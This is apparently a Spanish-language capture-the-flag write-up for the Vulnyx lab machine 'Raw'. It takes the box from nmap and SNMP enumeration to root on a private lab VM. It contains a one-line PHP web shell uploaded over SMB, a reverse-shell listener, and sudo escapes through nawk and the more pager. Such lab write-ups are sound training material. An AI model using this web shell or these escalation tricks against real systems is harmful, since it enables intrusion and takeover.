 ```yaml
---
layout: post
title: Raw - Vulnyx
---
```


# Writeup
![Raw]({{'/assets/img/Raw/raw.png' | relative_url}})

Vulnyx

----------------------------------------------------------------------------------------------

Iniciamos el escaneo con **Nmap** en busca de puertos expuestos y reconocer los sevicios que los ocupan, para posteriormente buscar vulnerabilidades.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.2.234 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-09 21:52 CEST
Initiating ARP Ping Scan at 21:52
Scanning 192.168.2.234 [1 port]
Completed ARP Ping Scan at 21:52, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:52
Scanning 192.168.2.234 [65535 ports]
Discovered open port 80/tcp on 192.168.2.234
Discovered open port 22/tcp on 192.168.2.234
Discovered open port 3000/tcp on 192.168.2.234
Completed SYN Stealth Scan at 21:52, 0.45s elapsed (65535 total ports)
Nmap scan report for 192.168.2.234
Host is up, received arp-response (0.00010s latency).
Scanned at 2024-04-09 21:52:04 CEST for 1s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
MAC Address: 08:00:27:CB:12:5C (Oracle VirtualBox virtual NIC)
```
```bash
❯ nmap -sCV -p22,80,3000 192.168.2.234 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-09 21:52 CEST
Nmap scan report for raw (192.168.2.234)
Host is up (0.00017s latency).

PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp   open  http         Apache httpd 2.4.56 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.56 (Debian)
3000/tcp open  microsoft-ds
| fingerprint-strings: 
|   SMBProgNeg: 
|     SMBr
|_    "3DUfw
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=4/9%Time=66159CD9%P=x86_64-pc-linux-gnu%r(
SF:SMBProgNeg,51,"\0\0\0M\xffSMBr\0\0\0\0\x80\0\xc0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0@\x06\0\0\x01\0\x11\x07\0\x03\x01\0\x01\0\0\xfa\0\0\0\0\x01\0\0\0\
SF:0\0p\0\0\0\0\0\0\0\0\0\0\0\0\0\x08\x08\0\x11\"3DUfw\x88");
MAC Address: 08:00:27:CB:12:5C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Analizando el reporte de nmap el puerto **80 - http** no tiene absolutamente nada y el puerto **3000** es una conexion samba, que sin usuario ni credenciales aun no puede hacer nada.

Decido hacer otro escaneo por **UDP** y veo un puerto con el servicio **snmp** y me enfoco ahi.
```bash
❯ nmap -sU --top-port 1000 -T5 -vvv -n -Pn 192.168.2.234 -oN updPort
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-09 22:11 CEST
Initiating ARP Ping Scan at 22:11
Scanning 192.168.2.234 [1 port]
Completed ARP Ping Scan at 22:11, 0.05s elapsed (1 total hosts)
Initiating UDP Scan at 22:11
Scanning 192.168.2.234 [1000 ports]
Warning: 192.168.2.234 giving up on port because retransmission cap hit (2).

161/udp   open          snmp            udp-response ttl 64
```
* [Infomacion SNMP](https://www.whatsupgold.com/es/snmp)

Con la herramienta **onesixtyone** y diccionario de **community name** con la que hacer fuerza bruta, para posteriormente si hay exito probra con otra herramienta y dumpear mas informacion.
```bash
❯ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 192.168.2.234
Scanning 1 hosts, 3219 communities
192.168.2.234 [wally] Linux raw 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64
```
Hay suerte con la **community name**, ahora con **snmpbulkwalk** enumerar informacin de la maquina victima
```bash
❯ snmpbulkwalk -c wally -v2c 192.168.2.234

HOST-RESOURCES-MIB::hrSWRunParameters.375 = STRING: "-c /usr/local/bin/smbserver.py share /var/www/html/B@ckUpW@lly -username wally -hashes ':3B***************************BA7' -smb2"
```
Entre tanto dato que arroja la herramienta hay un comando que filtra un nombre de usuario y un hash para conecsion **smbserver**

Me conecto al puerto **3000** la carpeta por defecto **share** y... no hay nada, pero apunta a un directorio del servidor web y en el que puedo subir archivos.
```bash
❯ smbclient //192.168.2.234/share -U wally --pw-nt-hash '3B***************************BA7' -p 3000 -d
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D     4096  Wed Nov 29 11:06:02 2023
  ..                                  D     4096  Wed Nov 29 11:46:54 2023

        148529400 blocks of size 1024. 14851044 blocks available

smb: \> put cmd.php
putting file cmd.php as \cmd.php (10,7 kb/s) (average 10,7 kb/s)
smb: \> ls
  cmd.php                            AN       33  Tue Apr  9 23:13:11 2024

		148529400 blocks of size 1024. 14851044 blocks available

```
* Archivo **cmd.php**

```php
<?php
  system($_GET['cmd']);
?>
```
Por lo tanto me creo un pequeño archivo **php** que me proporcione ejecucion remota de comando y pueda enviarme una **reverse-shell**

Compruebo que funciona apuntando al **/etc/passwd**, con exito.
![passwd]({{'/assets/img/Raw/passwd.png' | relative_url }})

Escribo el comando para una reverse-shell.
![reverse-shell]({{'/assets/img/Raw/reverse-shell.png' | relative_url }})

Estoy dentro, como el usuario **wally**
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.2.128] from (UNKNOWN) [192.168.2.234] 42190
bash: cannot set terminal process group (451): Inappropriate ioctl for device
bash: no job control in this shell
wally@raw:/var/www/html/B@ckUpW@lly$ whoami
wally
wally@raw:/var/www/html/B@ckUpW@lly$ hostname -I
192.168.2.234 
wally@raw:/var/www/html/B@ckUpW@lly$ cd /home/wally
wally@raw:/home/wally$ cat user.txt 
e89**************************3af
wally@raw:/home/wally$ sudo -l
Matching Defaults entries for wally on raw:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User wally may run the following commands on raw:
    (loko) NOPASSWD: /usr/bin/nawk

```
Puedo ejecutar el archivo binario **nawk** como el usuario **loko**, me da la impresion que tendre que hacer pivoting de usuario.

Busco informacion sobre dicho ejecutable, para ver posible pivotage de usuario.
* [GTFOBINS - nawk - binary](https://gtfobins.github.io/gtfobins/nawk/)

Un simple vistazo y un comando rapido me dara la entrada al usuario **loko**.

Y este usuario tiene otra sorpresita.
```bash
wally@raw:/var/www/html/B@ckUpW@lly$ sudo -u loko /usr/bin/nawk 'BEGIN {system("/bin/bash")}'         
<-u loko /usr/bin/nawk 'BEGIN {system("/bin/bash")}'
whoami
loko
loko@raw:/var/www/html/B@ckUpW@lly$ sudo -l
Matching Defaults entries for loko on raw:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User loko may run the following commands on raw:
    (root) NOPASSWD: /usr/bin/more /root/Pwn3d
```
* [GTFOBINS - more -binary](https://gtfobins.github.io/gtfobins/more/)

En el siguguiente enlace se pudede encontrar informacion sobre el binario. 
Pero en este caso la vulnerabilidad reside en la oportunidad de leer el archivo **Pwn3d** con privilegio **sudo**, 
hay que forzar entrar en modo paginate y ejecutar la vulnerabilidad.

```bash
loko@raw:/var/www/html/B@ckUpW@lly$ stty size
28 213
loko@raw:/var/www/html/B@ckUpW@lly$ stty rows 5 columns 5
loko@
dPwn3d
Hi Ha
cker!
You d
id a 
--More--(45%) -> escribir <!bash>
```
Esta vulnerabilidad requiere de entrar en el modo paginate cuando se abre un archivo
```bash
root@raw:/home/loko# cd /root
root@raw:~# ls -la
total 36
drwx------  4 root root 4096 Nov 29 11:25 .
drwxr-xr-x 18 root root 4096 Nov 28 19:04 ..
lrwxrwxrwx  1 root root    9 Apr 23  2023 .bash_history -> /dev/null
-rw-------  1 root root 3526 Jan 15  2023 .bashrc
drwxr-xr-x  3 root root 4096 Aug  1  2023 .cache
drw-------  5 root root 4096 Nov 28 19:08 .local
-rw-------  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Nov 28 19:19 .selected_editor
-r--------  1 root root   46 Nov 29 11:25 Pwn3d
-r--------  1 root root   33 Nov 29 11:10 rOOOOOt.txt
root@raw:~# cat rOOOOOt.txt
bad**************************8a9
```

Espro que te pueda servir de ayuda. GRACIAS por venir.
